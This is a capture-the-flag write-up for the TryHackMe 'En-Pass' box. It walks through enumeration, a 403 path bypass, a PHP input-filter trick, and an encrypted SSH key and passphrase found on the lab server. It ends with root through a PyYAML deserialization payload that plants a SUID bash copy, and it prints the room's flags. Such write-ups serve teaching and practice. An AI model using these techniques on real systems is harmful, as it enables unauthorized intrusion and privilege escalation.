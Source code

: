 # Tryhackme.com Room : En-Pass

`https://tryhackme.com/room/enpass`

## Instance

```bash
export IP='10.10.236.111'
```

## Nmap

```
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8a:bf:6b:1e:93:71:7c:99:04:59:d3:8d:81:04:af:46 (RSA)
|   256 40:fd:0c:fc:0b:a8:f5:2d:b1:2e:34:81:e5:c7:a5:91 (ECDSA)
|_  256 7b:39:97:f0:6c:8a:ba:38:5f:48:7b:cc:da:72:a8:44 (ED25519)
8001/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: En-Pass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## Initial Foothold

We land on a static webpage on `:8001/`.

We find the string `Ehvw ri Oxfn!!` on the page which is `rot 3` for `Best of Luck!!`.

We `gobuster` the website and find

```
/web (Status: 301)
/index.html (Status: 200)
/reg.php (Status: 200)
/403.php (Status: 403)
/zip (Status: 301
```



There is a folder `/zip` with a bunch of zip files.

```
a.zip
a0.zip
a1.zip
...
a100.zip
```

Let's continue enumeration, we'll come back to this later.



Then there is the `/web` folder which doesn't allow directory listing.

Let's dig in with multiple `gobuster` runs to find something interesting in there.

```
/web/resources/infoseek/configure/key
```

And we find an `ssh` key, still need to find a username :

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,3A3DBCAED659E70F7293FA98DB8C1802

V0Z7T9g2JZvMMhiZ6JzYWaWo8hubQhVIu3AcrxJZqFD0o2FW1K0bHGLbK8P+SaAc
9plhOtJX6ZUjtq92E/sinTG0wwc94VmwiA5lvGmjUtBjah4epDJs8Vt/tIpSTg8k
28ef1Q8+5+Kl4alJZWNF0RVpykVEXKqYw3kJBqQDTa4aH75MczJGfk4TY5kdZFO3
tPVajm46V2C/9OrjOpEVg2jIom+e4kJAaJdB7Jr7br3xoaYhe5YEUiSGM8YD7SUZ
azrAFkIoZ72iwdeVGR7CWgdwmDWw/nFvg6Ug/fsAGobDCf2CtwLEUtLL/XMpLvEb
AS0Wic1zPjCCGaVSyijImrh3beYgWbZzz7h5gmqfoycVKS4S+15tFZBZRA0wH05m
XfDw6It7ZZtP73i8XoOAg1gAbv6o/vR3GkF798bc0fV4bGJrpQ9MIEpOphR1SNuI
x0gjtCfIyYjwJmwlWeNmELyDAO3oIxYZBSydHko0EUBnbeOw+Jj3xvEdNO3PhZ7G
3UPIoZMH4KAdcXy15tL0MYGmXyOx+oHuDEPNHxkR3+lJ1C+BXJwtrSXU+qz9u/Sz
qavHdwzxc8+HiiWcGxN3LEdgfsKg/TKXA5X/TE7DnjVmhsL4IBCOIyPxF8ClXok7
YMwNymz269J85Y73gemMfhwvGC18dNs0xfYEMUtDWbrwJDsTezdBmssMvOHSjpr5
w+Z+sJvNabMIBVaQs+jqJoqm8EARNzA40CBQUJJdmqBfPV/xSmHzNOLdTspOShQN
5iwP3adKdq+/TCp2l8SaXQedMIf6DCPmcuUVrYK4pjAr7NzFVNUgqbYLT1J0thGr
gQBk+0RlQadN7m7BW835YeyvN0GKM35f7tUylJHcfTdjE832zB24iElDW483FvJy
RhM+bOBts0z+zVUx0Ua+OEM1sxwAAlruur4+ucCPFV1XrWYWfLo3VXvTbhPiZcXF
fmOJKaFxBFjbARQMR0IL5CH8tPz2Kbeaepp2sUZcgDZSHWAbvg0j8QVkisJJ/H7G
Vg6MdIRf+Ka9fPINxyrWnxDoIVqP5/HyuPjrmRN9wMA8lWub8okH9nlJoss3n8j5
xom80wK197o29NN6BWEUuagXSHdnU2o+9L991kScaC9XXOuRgqFrDRFBUUn1VOWJ
3p+lTLNscC+eMP0Be3U6R85b/o3grdb610A1V88pnDWGYa/oVgXelUh1SsHA0tuI
om679j9qdIP7O8m3PK0Wg/cSkjdj0vRxT539tAY1+ci99FXnO1Touo7mlaA4eRTK
LQLmzFcucQODcm3FEy18doT2llDTyloD2PmX+ipzB7mbdqw7pUXPyFTnGZoKrnhM
27L629aKxoM19Mz0xP8BoQMcCOCYklIw1vkaiPgXAYkNXXtBzwWn1SFcU57buaED
CJCnh3g19NZ/VjJ1zERJLjK1U1l/RtlejISAB35AYFUnKDG3iYXLRP3iT/R22BMd
z4uSYN10O1nr4EppAOMtdSdd9PJuwxKN/3nJvymMf3O/MmC/8DJOIyadZzEw7EbP
iU5caghFrCuuhCagiwYr+qeKM3BwMUBPeUXVWTCVmFkA7jR86XTMfjkD1vgDFj/8
-----END RSA PRIVATE KEY-----
```

Tried a random username `enpass` but the key need a passphrase. Let's crack it while we look at the rest.



We have a file `reg.php` with an input form.

For some reason, the php code is visible (Added comments while reversing this) :

```php
if($_SERVER["REQUEST_METHOD"] == "POST"){
   $title = $_POST["title"];
   if (!preg_match('/[a-zA-Z0-9]/i' , $title )){
       // Must not contains letters or numbers
      $val = explode(",",$title); // Splitted on ','
      $sum = 0;
      
      for($i = 0 ; $i < 9; $i++){
            if ( (strlen($val[0]) == 2) and (strlen($val[8]) ==  3 ))  {
                // First element len = 2
                // Ninth element len = 3
                if ( $val[5] !=$val[8]  and $val[3]!=$val[7] ) 
                    // elements must not
                    $sum = $sum+ (bool)$val[$i]."<br>"; 
            }
      }

      if ( ($sum) == 9 ){
          echo $result;//do not worry you'll get what you need.
          echo " Congo You Got It !! Nice ";
      }else{
          echo "  Try Try!!";
      }
    
    } else{
      echo "  Try Again!! ";
    }     
}
```

We find that the following input satisfy the confitions
```
##,@@,$$,^^,&&,**,((,)),!!!
```

We get
```
Nice. Password : cimihan_are_you_here?
```
Maybe the password for the zip files ?
Actually, this is the passphrase for the `ssh` key.

We downloaded all the zip files and we extract them using :
```
find . -name "*.zip" -exec sh -c 'unzip -B {} && rm {}' \;
```
We use the `-B` switch because all zip contain a file with the same name.

they all contain the same word :
```
sadman
```
Tried using this as the user to login via `ssh` but it doesn't work.
hmm kinda weird.. all this for nothing ?

So i decided to have a look at a writeup to see if someone figured out what to do with the `zip` files. But nop, nothing to do.

I saw someone talking about the `403.php` file, which I kinda had overlooked.
He made the observation that it wasn't used in `/web` even tho we receive a `403`.
Good observation.

They suggest the tool `https://github.com/intrudir/403fuzzer` which is a tool that try different permutations of the url to bypass the `403`.
And we find an url that bypass the `403.php` :
```
curl 'http://10.10.236.111:8001/403.php/..;/'
```

We get :
```
Glad to see you here.Congo, you bypassed it. 'imsau' is waiting for you somewhere.
```

So here we go, we got the username `imsau`

We can now login via `ssh` and retrieve `/home/imsau/user.txt` :
```
1c5ccb6ce6f3561e302e0e516c633da9
```

## Priv Esc
We find a python script in `/opt/scripts/file.py` :
```
#!/usr/bin/python
import yaml


class Execute():
        def __init__(self,file_name ="/tmp/file.yml"):
                self.file_name = file_name
                self.read_file = open(file_name ,"r")

        def run(self):
                return self.read_file.read()

data  = yaml.load(Execute().run())
```

Not sure who is running this, nothing in `/etc/crontab` and `/etc/cron.d`

Let's run `pspy` to see what is happening.
We see
```
2021/05/12 03:27:01 CMD: UID=0    PID=3602   | /bin/sh -c cd /opt/scripts && sudo /usr/bin/python /opt/scripts/file.py && sudo rm -f /tmp/file.yml
2021/05/12 03:27:01 CMD: UID=0    PID=3601   | /bin/sh -c cd /tmp && sudo chown root:root /tmp/file.yml
```

We can't write in `/opt/script` so we can't really highjack the `yaml` lib



I googled `python yaml exploit` and found this `https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf`.

They go in details about what is the vulnerability.



We know that a cronjob will execute `/opt/scrpt/file.py` and use `/tmp/file.yml` as input.

We create this simple `yaml` payload :

```
echo '!!python/object/apply:posix.system ["cp /bin/bash /tmp/bash && chmod +s /tmp/bash"]' > /tmp/file.yml
```

This will create a copy of `bash` and set the `SUID` bit.

Now we just need to launch it using `/tmp/bash -p` and we are now root !



when we `ls -la` the `/root` folder. We see that there is a bunch of `root.txt` files.

Using `python -c 'import os;print(os.listdir("."))'` we can see that it's a bunch of `root.txt` files with some spaces appended to the filename.

We can cat them all and retrieve the unique values using `cat root* | sort | uniq -c` and we get :

```
     99 5d45f08ee939521d59247233d3f8faf
      1 5d45f08ee939521d59247233d3f8fafd
```

The one that is unique is probably the flag :

```
5d45f08ee939521d59247233d3f8fafd
```



## Wrap up

* This was a cool not too hard box.
* Kinda got stuck at the `403.php` bypass. Didn't know about these bypass techniques so it's a cool new trick that I learned.

